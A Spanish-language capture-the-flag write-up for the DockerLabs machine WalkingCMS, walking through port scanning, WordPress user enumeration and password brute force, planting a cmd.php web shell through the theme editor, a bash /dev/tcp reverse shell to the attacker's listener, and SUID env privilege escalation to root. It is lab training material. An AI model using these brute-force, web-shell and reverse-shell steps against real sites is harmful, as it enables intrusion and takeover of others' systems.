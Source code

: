 # [WalkingCMS](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh walkingcms.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/50801b43-05e7-4999-91d4-d23412e03e67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página por defecto de Apache2, por lo que haremos un fuzzing para encontrar posible directorios de la siguiente forma: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2/ -x txt,sql,py,js,php,html`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8c202d25-653f-4177-a6fe-2344be418e8f)

<br>

Nos reporta que existe un directorio dentro de la web llamado `/wordpress`, por lo que entendemos que dicho servidor web está alojado en wordpress.
<br>

Una vez que sabemos que tiene un wordpress, pasaremos a usar la herramienta `wp-scan` la cual nos permite identificar posible vulnerabilidades a través de plugins, enumeración de usuarios y hacer un ataque de fuerza bruta al panel de login. Para usar dicha herramienta pondremos los siguiente: `wpscan --url http://172.17.0.2/wordpress --enumerate u, pv`, con la cual obtendremos que existe un usuario llamado `mario`:<br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`--enumerate u, pv` ⮞ le indicamos que nos enumere posible usuarios con la `u` y plugins con la `pv`. <br> 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/96d9d3cc-7e1f-4621-b9f9-cd0ec4350bfe)

<br>
<br>

## Fuerza Bruta

Una vez conocemos el posible usuario haremos un ataque de fuerza bruta al panel de login que sería `/wp-admin`. Dicho ataque de fuerza bruta se podría hacer con burpsuite pero en este caso yo usaré wpscan ya que va más rápido, por lo que pondremos lo siguiente: `wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario`. <br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`-passwords` ⮞ especificamos la ruta del diccionario en este caso sería el [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br> 
`-usernames` ⮞ especificamos los usuarios en este caso solo es `mario`.
<br>

Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9874aab1-121f-4d9d-91b0-ecd7e24b3f63)

<br>

Ahora volvemos al panel de login que estaría en la siguiente ruta: `http://172.17.0.2/wordpress/wp-admin/`, nos logeamos con las credenciales obtenidas `(mario:love)`. Buscando por el panel de admin una posible forma de acceder a la máquina WalkingCMS observamos que si pinchamos en la parte de `Apariencia > Theme Code Editor` se nos abrirá un editor de código para los temas.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b0ef60eb-201e-43e4-812e-f7aaaeccc9b8)

<br>

Pinchando en el botón de `Create` de la derecha nos aparecerá el siguiente pop-up para crear um archivo/carpeta, creamos un archivo de nombre `cmd.php`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/684232e5-7e9b-4bae-b38f-48f1640beef6)

<br>

Pasamos a editar dicho archivo `.php` que tendrá el siguiente contenido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/563a2366-2256-48c9-818c-a56d2b398b3a)

<br>

Lo que debemos hacer ahora es acceder a dicho archivo a través de la URL, para ello nos iremos a la ruta que nos salía al crear un archivo, que sería `wordpress/wp-content/themes/twentytwentytwo/`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/741a0428-f358-45f0-b695-c2ae180839fe)

<br>

Y lo que queremos es acceder al archivo de nombre `cmd.php` por lo que introduciremos en la URL lo siguiente: `http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php`, y listo conseguiremos RCE (Remove Code Execution) pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ebca85b8-2f72-4f24-bdd2-90a04be442d1)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af76da05-55f2-4767-b1a9-15137429dc65)


## Escalada de Privilegios

Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>
6-. `stty rows 49 cols 210`<br>
<br>

 > Puedes usar también esta interfaz gráfica para el Tratamiento de la TTY de El Pinguino de Mario [PinguTTY](https://github.com/Maalfer/PinguTTY)

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6ba29ccd-363b-4722-a2db-3336b70e3121)

<br>

Vemos que tan solo se encuentra accesible el usuario `root`, por lo que entendemos que vamos a escalar privilegios directamente.
<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo, de hecho no esta ni instalado.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/76c547c0-de2e-4609-9734-fd31077927fa)

<br>

Buscaremos por permisos SUID ejecutando el siguiente comando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/env`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3f30a8f4-66fd-4f0e-88f1-db7e0e97d629)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de SUID de env, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d3b33fc1-59de-43ba-936e-783c7673af92)

<br>

Por lo que probaremos a ejecutarlo en la máquina víctima poniendo `/usr/bin/env /bin/bash -p`
<br>

Comprobamos que nos ha cambiado el terminal, y listo si ya somos `root` y hacemos `whoami` para comprobarlo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ec54c601-2dd3-4c56-a7a1-b9f481dec655)
